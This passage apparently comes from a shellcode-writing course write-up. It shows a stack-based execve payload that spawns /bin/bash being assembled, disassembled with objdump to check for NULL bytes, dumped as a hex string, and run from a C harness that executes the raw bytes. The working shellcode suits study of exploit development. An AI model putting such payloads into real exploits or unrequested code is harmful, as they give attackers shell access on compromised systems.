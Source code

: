 ```
$ nasm -f elf32 execve-stack.nasm
$ ld -o execve-stack execve-stack.o
```

let's execute this

```
$ ./execve-stack 
osboxes@osboxes:/home/osboxes/SLAE-Code/Shellcode/Execve$
```

and if you notice the execution is happened. Quick look with `objdump`
so that we ensure there are no NULLs.

```
$ objdump -d execve-stack -M intel

execve-stack:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	50                   	push   eax
 8048063:	68 62 61 73 68       	push   0x68736162
 8048068:	68 62 69 6e 2f       	push   0x2f6e6962
 804806d:	68 2f 2f 2f 2f       	push   0x2f2f2f2f
 8048072:	89 e3                	mov    ebx,esp
 8048074:	50                   	push   eax
 8048075:	89 e2                	mov    edx,esp
 8048077:	53                   	push   ebx
 8048078:	89 e1                	mov    ecx,esp
 804807a:	b0 0b                	mov    al,0xb
 804807c:	cd 80                	int    0x80
```

Now we will use my small script

```
$ shellcode-dump.sh execve-stack
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

and insert it in `shellcode.c`

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}

```
